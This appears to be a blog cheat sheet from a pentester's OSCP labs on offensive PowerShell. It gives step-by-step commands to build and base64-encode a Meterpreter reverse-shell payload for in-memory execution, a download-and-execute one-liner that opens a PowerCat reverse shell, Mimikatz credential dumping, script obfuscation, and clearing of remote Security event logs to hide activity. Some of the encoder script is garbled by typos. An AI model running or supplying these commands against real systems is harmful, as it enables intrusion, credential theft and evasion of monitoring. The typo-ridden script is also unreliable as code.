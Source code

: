 During the process of working thru my OSCP labs I've been doing a ton of work
with Windows Powershell from the perspective of a security auditor/pentester.
Worked correctly, like almost anything it can be utilized into a valuable tool
when compromising a network/machine.

Shelling the System

Using PowerShell to Launch Meterpreter from Memory
You'll need:
Metasploit 4.5+
PowerShell x86 with 32 bit Meterpreter payloads
encodedMeterpreter.ps1 script found below

On Attack Box (making payload, using powershell to encode a runable string)

	  ./msfvenom -p windows/meterpreter/reverse_https -f psh -a x86 LHOST:1.1.1.1
    LPORT:4444 > audit.ps1

    mv audit.ps1 <same folder as encodedMeterpreter.ps1>

Launch PowerShell x86

    > powershell.exe -executionpolicy bypass encodedMeterpreter.ps1

    cp encoded string

Start Listener (use your desired payload, then load handler over it for proper use)

    ./msfconsole

    use windows/meterpreter/reverse_https

    handler -H 10.10.1.1 -P 4444 -p windows/meterpreter/reverse_https

On Target Windows Machine (need some kind of ftp webshell delivered cmdasp.aspx)

    > powershell.exe -noexit -encodedCommand <paste encoded string output from
    encodedMeterpreter.ps1>


encodedMeterpreter.ps1 Script:

    # Get Contents of Scripts
    $contents - Get-Content audit.ps1

    # Compress Script
    $ms = New-Object IO.MemoryStream
    $action = [IO.Compression.CompressionMode]::Compress
    $cs = New-Object IO.Compression.DeflateStream ($ms,$action)
    $sw = New-Object IO.StreamWriter ($cs, [Text.Encoding]::ASCII)
    $contents | ForEach-Object {$sw.WriteLine($_)}
    $sw.Close()

    # Base64 Encode Stream
    $code = [Convert]::ToBase64String{$ms.ToArray()}
    $command = "Invoke-Expression '$(New-Object IO.StreamReader ('$(New-Object IO.    Compression.DeflateStream ('$(New-     Object IO.MemoryStream
    ((,'$([Convert]::FromBase64String('"$code'")))),
    [IO.Compression.CompressionMode]::Decompress)),
    [Text.Encoding]::ASCII)).ReadToEnd();"

    # Invoke-Expression $command
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)

    # Write to Standard Out
    Write-Host $encodedCommand



Cheat Sheet

PowerShell One Liner Reverse-Shelling (in your webshell cmdasp.aspx)

    nc -lvn -p 4444


Or you can use PowerCat.ps1 script hosted and get your shell that way.

Host your powercat files

   python -m SimpleHTTPServer 8080

Use your cmdasp.aspx webshell to force download and execution of powercat.ps1
& get your reverse shell

   powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString
   ('http://10.10.10.1/powercat.ps1'));powercat -c 10.10.10.1 -p 4444 -ep"


So Once you've attained your shell you want the ability to get credentials and
escalate priviledges.  The quick and easy way to do this, while maintaining
obfuscation is to use Mimikatz & Invoke-Obfuscation from PowerSploit/Empire.
Using one of the methods we covered above get the Invoke-Mimikatz.ps1 & the Invoke-Obfuscation.psd1
suite uploaded.  Now we want to use PowerShell to import those modules and execute.
This is the easiest way and often with windows 10 the only way that will work.
Using PowerCat's Reverse shell, and running both the Import-Module & execute command
inline, NOT SEPERATE!  Like so:

   powershell Import-Module .\Invoke-Mimikatz.ps1; Invoke-Mimikatz -DumpCreds

   powershell Import-Module .\Invoke-Obfuscation.psd1; Invoke-obfuscation



PowerShell CHEATS (ALL WITH powershell prefix included)

   stop-transcript                            Stops Recording
   get-content <file>                         display file Contents
   get-help <command> -Examples               shows examples of commands
   get-command '<string>'                     searchs for cmd string
   get-service                                displays services
   get-wmiobject -class win32_service         alternate creds
   $PSVersionTable                            display powershell version
   -version 2.0                               run powershell 2.0
   get-service | measure-object               returns # of services
   get-psdrive                                returns list of psdrives
   get-process | select -expandproperty name  returns only names
   get-help * -parameter credential           cmdlets that take creds
   get-wmiobject -list "network [Net.DNS]::GetHostEntry("<ip>")     dns lookup

Clear Security & Application Event Log for Remote Services

   Get-EventLog -list
   Clear-EventLog -logname Application, Security -computername SRV01

List Running Services

   Get-Service | where_object ($_.status -eq "Running")

